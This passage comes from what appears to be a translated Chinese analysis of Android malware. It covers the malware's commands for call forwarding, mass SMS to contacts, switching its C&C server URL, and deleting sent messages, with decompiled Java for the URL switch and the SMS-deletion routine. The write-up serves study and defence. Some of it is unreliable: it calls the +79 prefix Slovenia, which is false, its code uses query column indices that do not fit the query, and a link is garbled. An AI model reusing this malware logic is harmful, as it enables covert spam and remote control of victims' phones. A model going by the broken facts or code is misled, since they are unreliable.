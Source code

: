 首先，恶意软件设置将任何呼叫都转移到号码+79009999999。区号+79是斯洛文尼亚。之后，从命令中检索短信息的正文。并使用两个查询，查询手机中的所有联系人，上限为29。这些联系人都将收到一条短信息，其中包含在命令中定义的正文。之后，将会从手机上删除这一条发出的消息。

6.9.8 new_url

使用此命令，可以在设置中更改C&amp;C服务器的URL。命令中URL的名称为text。程序会对其进行完整性检查，以查看URL是否超过了10个字符。符合HTTP协议（[http://）规范并包含两个字符的顶级域名等于10个字符。](http://%EF%BC%89%E8%A7%84%E8%8C%83%E5%B9%B6%E5%8C%85%E5%90%AB%E4%B8%A4%E4%B8%AA%E5%AD%97%E7%AC%A6%E7%9A%84%E9%A1%B6%E7%BA%A7%E5%9F%9F%E5%90%8D%E7%AD%89%E4%BA%8E10%E4%B8%AA%E5%AD%97%E7%AC%A6%E3%80%82)

因此，即使是最小的URL，也要有11个字符，因此恶意程序会对其进行检查。由于手机尚未在新的C&amp;C服务器上注册，所以inst设置为1。代码如下：

```
case "new_url":
    String url = commandJson.optString("text");
    if (url.length() &gt; 10) `{`
        sharedPreferenceEditor.putString("url", url).commit();
        sharedPreferenceEditor.putString("inst", "1").commit();
    `}`
    break;
```

6.9.9 重命名类

根据两个函数中的信息，这个类通过将命令（字符串）与已知命令列表进行比较，然后调用正确的类来执行请求的操作，从而处理特定命令。因此，我们将这个类重命名为CommandHandler。

### <a class="reference-link" name="6.10%20TelephonyManagerWrapper2"></a>6.10 TelephonyManagerWrapper2

TelephonyManagerWrapper2的代码如下：

```
public static void removeSentMessages(Context context, String body, String numberTo) `{`
    try `{`
        Uri parse = Uri.parse("content://sms/inbox");
        Cursor query = context.getContentResolver().query(parse, new String[]`{`"_id", "thread_id", "person", "date", "body"`}`, null, null, null);
        if (query == null) `{`
            return;
        `}`
        if (query.moveToFirst()) `{`
            do `{`
                long firstMessage = query.getLong(0);
                String thread_id = query.getString(2);
                if (body.equals(query.getString(5))) `{`
                    if (thread_id.equals(numberTo)) `{`
                        context.getContentResolver().delete(Uri.parse("content://sms/" + firstMessage), null, null);
                    `}`
                `}`
            `}` while (query.moveToNext());
        `}`
    `}` catch (Throwable th) `{`
    `}`
`}`
```
